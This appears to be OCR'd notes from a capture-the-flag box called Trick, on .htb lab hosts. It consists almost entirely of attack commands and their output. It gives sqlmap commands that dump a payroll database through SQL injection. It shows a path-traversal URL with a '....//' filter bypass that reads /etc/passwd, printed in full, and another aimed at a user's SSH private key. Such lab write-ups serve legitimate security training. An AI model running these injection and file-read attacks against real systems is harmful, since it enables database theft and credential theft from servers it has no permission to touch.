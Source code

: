 sqlmap -u "http://preprod-payroll.trick.htb/index.php?page=payroll_items&id=2*" --dump -T payroll_items -D payroll_db --technique T --batch
sqlmap -u "http://preprod-payroll.trick.htb/index.php?page=payroll_items&id=2*" --schema --batch

http://preprod-marketing.trick.htb/index.php?page=....//....//....//etc/passwd
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin
 man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
 lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
 mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
 news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
 uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
 proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
 www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
 backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
 list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
 irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
 gnats:x:41:41:Gnats Bug-Reporting System 
 (admin):/var/lib/gnats:/usr/sbin/nologin 
 nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
 _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
 systemd-timesync:x:101:102:systemd 
 Time Synchronization,,,:/run/systemd:/usr/sbin/nologin 
 systemd-network:x:102:103:systemd 
 Network Management,,,:/run/systemd:/usr/sbin/nologin 
 systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin 
 messagebus:x:104:110::/nonexistent:/usr/sbin/nologin tss:x:105:111:TPM2 
 software stack,,,:/var/lib/tpm:/bin/false 
 dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin 
 usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin 
 rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin 
 pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin 
 speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false 
 avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin 
 saned:x:112:121::/var/lib/saned:/usr/sbin/nologin 
 colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin 
 geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin 
 hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false D
 ebian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false 
 systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin 
 mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false 
 sshd:x:118:65534::/run/sshd:/usr/sbin/nologin 
 postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin 
 bind:x:120:128::/var/cache/bind:/usr/sbin/nologin 
 michael:x:1001:1001::/home/michael:/bin/bash 

 http://preprod-marketing.trick.htb/index.php?page=....//....//....//home/michael/.ssh/id_rsa